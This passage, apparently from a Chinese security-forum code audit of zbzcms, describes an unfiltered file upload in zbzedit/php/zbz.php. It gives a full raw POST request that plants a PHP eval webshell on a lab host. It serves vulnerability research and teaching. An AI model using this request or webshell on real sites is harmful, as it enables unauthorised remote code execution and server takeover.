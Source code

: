 也是成功写入

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f8f5081d7beae343ef139ed23dd4075c296229ba.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-fc94eb4a2e19d85657d82b0d7f65fc3559a13509.png)

### 文件上传4

在另一个路径下http://192.168.1.7/zbzcms.com/cms/cms/zbzedit/php/zbz.php  
我们来看代码

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e78206d0ccf5e733ce489113751004e003115a10.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8583ca7fcc99ae9caf8b592e72e0de7fbe3fbbbc.png)

进行了一些花里胡哨的操作 主要的问题 还是没有任何过滤和限制  
通过path和path\_res控制路径  
data\_pic\_name 控制文件名0改名1不改  
然后就是上传了  
那就直接构造payload：

```php
POST /zbzcms.com/cms/cms/zbzedit/php/zbz.php?run=uptxt&path=../../../upload/up/&path_res=../../upload/up/&data_pic_name=1 HTTP/1.1
Host: 192.168.1.7
Content-Length: 238
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQy3ayf3rnYVYcEcG
Origin: http://192.168.1.7
Referer: http://192.168.1.7/zbzcms.com/cms/cms/zbzedit/edit.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,is;q=0.8,zh-TW;q=0.7
Cookie: PHPSESSID=utnoq283ip9p4fuu5dfm56qmo5
Connection: close

------WebKitFormBoundaryQy3ayf3rnYVYcEcG
Content-Disposition: form-data; name="0"; filename="yjh.php"
Content-Type: application/octet-stream

herman
<?php @eval($_POST['a']); phpinfo();?>
------WebKitFormBoundaryQy3ayf3rnYVYcEcG--
```

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e924322ed09caa261c4ed3b1c096179a915b3d0f.png)

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-5bc979d9e5b8a19f69689c90fe82d8c0ddc1a675.png)

成功上传
